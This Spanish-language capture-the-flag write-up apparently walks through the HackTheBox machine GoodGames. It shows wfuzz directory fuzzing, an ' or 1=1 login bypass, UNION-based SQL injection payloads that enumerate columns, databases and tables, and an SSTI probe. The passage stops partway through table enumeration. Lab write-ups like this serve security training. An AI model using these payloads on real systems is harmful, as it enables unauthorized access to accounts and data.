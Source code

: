 Despues hacemos Fuzzing, para ver si existen mas directorios.
```bash 
❯ wfuzz -c --hc=404 -hh=9265 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.130/FUZZ
```
Y descubrimos algunos directiorios como los siguientes:  (profile, blog, signup, login, logout)
El que nos sirvio es el 'signup' ya que ahi tenemos otra pagina en donde nos podemos registrar.

Usando esta inyeccion, logramos burlar el panel y entramos como admin.
```bash
❯ ' or 1=1-- -                                       # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
```
Existe un panel de configuracion, el cual no abre al principio, porque en la url esta tratando de hacer **Virtual Hosting (internal-administration.goodgames.htb)** por lo que debemos de agregar la ruta a nuestro **/etc/hosts** 

Usamos **BurpSuite** para ver si podemos usar en el mismo campo de login para poder inyectar comandos SQLI.
```bash
❯ ' or 1=1-- -                                       # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' order by 100-- -                                 # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```
Encontramos que ya no nos marca error en la 4ta columna, ademas de fijarnos en el Content-Length, que cuando tiene error tiene un numero y cuando no, tiene otro numero.

```bash
❯ ' union select 1,2,3,4 -- -                        # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo, y este se encuentra a lado del 'Welcome'
```
Despues podemos  ir inyectando diferentes cosas para ir viendo el output en la respuesta de BurpSuite

```bash
❯ ' union select 1,2,3,"test" -- -              # Nos muestra en el output de la web la palabra 'test'
❯ ' union select 1,2,3,"{{7*7}}" -- -           # Si en la respuesta miramos un 49, quiere decir que existe un SSTI (Server Site Template Injection)
❯ ' union select 1,2,3,database() -- -          # Queremos que muestre el nombre de la base de datos actual en uso
```

Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select 1,2,3,schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
```

Para saber las tablas de la base de datos (DB) especifica. Lo limitamos ya que en la respuesta junta todas las tablas y no se aprecia bien.
```bash
❯ ' union select 1,2,3,table_name from information_schema.tables limit 0,1-- -             # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```
